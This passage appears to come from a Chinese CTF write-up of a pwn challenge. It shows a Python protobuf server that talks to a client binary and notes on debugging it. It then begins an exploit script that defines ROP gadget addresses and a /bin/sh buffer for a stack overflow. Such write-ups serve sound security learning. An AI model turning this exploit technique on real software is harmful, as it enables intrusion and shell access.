```python
            print(f'Received message: {client_message}')

            # Create a response message
            response_message = Message()
            response_message.magic = 875704370
            response_message.seq = client_message.seq+1
            response_message.opcode = client_message.opcode
            if response_message.opcode==Opcode.OP_MSG:
               # do something to stack overflow
                send_proto_message(connection, response_message)
            elif response_message.opcode==Opcode.OP_HELLO:
                response_message.cont = b"helloOk"
                send_proto_message(connection, response_message)
            elif response_message.opcode==Opcode.OP_SESSION:
                response_message.cont = b"sessionOk"
                send_proto_message(connection, response_message)
            elif response_message.opcode==Opcode.OP_END:
                response_message.cont = b"Ok"
                # Send the response back to the client
                send_proto_message(connection, response_message)

    finally:
        # Clean up the connection
        connection.close()
```
踩过的坑如下：
- 一个非常基本的点，应该是写成先收再发的交互形式。一开始试着选一个合理的时间间隔发包，发现会出现 server 这边还在发，client 因为 server 发的上一个包没过检查所以终止的情况，会 pipe 报错。此外，内层 while 在收不到包的时候也是需要 break 的ww ~
- 一定要写两个 while 循环，内层的 while 对应于每次的四次交互，外层的 while 可以防止比如说 oddclient 跑挂的话，只用 gdb oddclient 就行，不用重开服务器，调试的时候省力很多 ~   
- try-except-finally 一定要放在内层循环的外面，不然发第一遍消息之后 connection 已经被关闭了，再发消息就会报错 fd corruption 之类的奇怪错误，其实看 connection 的定义位置，应该能想到是在内层循环的外面ww ，评价是 python 没学好:（    
## exp
把交互搞定之后，就变成一个基本栈题了hh ~ 其实笔者一开始 unhex 逆向有点小问题，所以也是调试了一会才搞定的hhh（exp 中可以看到痕迹）
```python
import socket
from time import sleep
from odd_pb2 import Message,Opcode # 生成的protobuf文件
from pwn import*
syscall_addr=0x65c47b
binshell_addr=0x765a98 # 在 bss 上随便放
pop_rsi=0x4161b3
pop_rdi=0x4146a4
pop_rdx_rbx=0x6615ab
pop_rax=0x54688a
# syscall read and syscall binshell
# Helper function to send protobuf message over a socket
def send_proto_message(conn, proto_message):
    print("send_proto_message:",proto_message,proto_message.cont)
    serialized_message = proto_message.SerializeToString()
    length = len(serialized_message)
    conn.sendall(serialized_message)

# Helper function to receive protobuf message from a socket
def receive_proto_message(conn):
    serialized_message = conn.recv(1024)
    message = Message()
    message.ParseFromString(serialized_message)
    return message
    
# Create a TCP/IP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```